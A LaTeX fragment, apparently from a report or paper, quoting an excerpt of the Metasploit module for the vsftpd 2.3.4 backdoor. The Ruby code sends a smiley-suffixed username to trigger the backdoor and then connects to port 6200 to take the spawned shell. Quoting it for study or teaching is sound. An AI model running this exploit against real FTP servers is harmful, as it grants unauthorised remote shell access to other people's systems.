 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[language=ruby, 
caption=\href{https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb}{Excerpt of 'vsftpd\_234\_backdoor.rb' Source: GitHub},
label=lst:vsftpdvul]
# Connect to the FTP service port first
connect

banner = sock.get_once(-1, 30).to_s
print_status("Banner: #{banner.strip}")

sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
resp = sock.get_once(-1, 30).to_s
print_status("USER: #{resp.strip}")

if resp =~ /^530 /
  print_error("This server is configured for anonymous only and the backdoor code cannot be reached")
  disconnect
  return
end

if resp !~ /^331 /
  print_error("This server did not respond as expected: #{resp.strip}")
  disconnect
  return
end

sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")

# Do not bother reading the response from password, just try the backdoor
nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
if nsock
  print_good("Backdoor service has been spawned, handling...")
  handle_backdoor(nsock)
  return
end

disconnect
\end{lstlisting}
\end{document}

